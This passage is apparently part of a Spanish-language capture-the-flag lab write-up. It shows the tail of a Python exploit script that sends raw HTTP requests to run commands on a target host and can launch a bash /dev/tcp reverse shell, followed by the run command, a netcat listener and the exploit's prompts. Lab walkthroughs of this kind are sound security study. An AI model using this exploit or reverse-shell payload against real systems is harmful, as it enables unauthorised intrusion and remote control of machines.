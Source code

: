 ```python
        f"Accept: */*\r\n"
        f"Content-Length: {content_length}\r\n"
        f"Content-Type: application/x-www-form-urlencoded\r\n"
        f"Connection: close\r\n"
        f"\r\n"
        f"{body}"
    )
    with socket.create_connection((host, port)) as s:
        s.sendall(request.encode())
        response = b""
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            response += chunk
    final = response.decode(errors="ignore")
    output = re.search(r'text/plain\s*\r?\n\r?\n(.*)', final, re.DOTALL)
    print(output.group(1))
while True:
    try:
        command = input("Escriba el comando a ejecutar o shell para enviar una reverse shell: ")
        if command == "shell":
            port = int(input("Escriba el puerto donde quiere recibirla: "))
            host = input("Escriba su ip: ")
            shell = f'bash -c "bash -i >& /dev/tcp/{host}/{port} 0>&1"'
            send_request(shell)
        else:
            send_request(command)
    except KeyboardInterrupt:
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)
```

Igual lo llamamos **exploit** y lo ejecutamos de la siguiente manera donde solo nos pide como argumentos la direccion ip objetivo:
```bash
# Comandos para explotación
python3 exploit.py 172.17.0.2
```
### Intrusion
Una ves ejecutado nos ponemos en escucha para, lanzarnos una **revershell** ya que nos permite el exploit.
```bash
nc -nvlp 443
```

```bash
# Reverse shell o acceso inicial
Escriba el comando a ejecutar o shell para enviar una reverse shell: shell
Escriba el puerto donde quiere recibirla: 443
Escriba su ip: 172.17.0.1
```

---